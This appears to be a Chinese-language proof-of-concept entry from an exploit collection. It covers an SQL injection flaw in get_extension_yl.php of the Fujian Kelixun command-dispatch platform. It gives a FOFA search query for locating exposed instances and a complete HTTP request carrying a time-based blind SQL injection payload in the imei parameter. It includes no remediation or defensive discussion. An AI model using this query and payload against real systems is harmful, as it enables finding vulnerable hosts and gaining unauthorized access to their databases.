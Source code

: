 ## 福建科立讯通信指挥调度平台get_extension_yl.php存在sql注入漏洞

## fofa
```
body="app/structure/departments.php"||app="指挥调度管理平台"
```
## poc
```
GET /api/client/get_extension_yl.php?imei=1%27%20AND%20(SELECT%207545%20FROM%20(SELECT(SLEEP(5)))Zjzw)%20AND%20%27czva%27=%27czva&timestamp=1&sign=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: authcode=h8g9
Upgrade-Insecure-Requests: 1
```

![3973d557bffaa4172f8077fe5f50f364](../../images/ec6a38f0-74ff-4be7-a668-f1af3aa0722c.png)
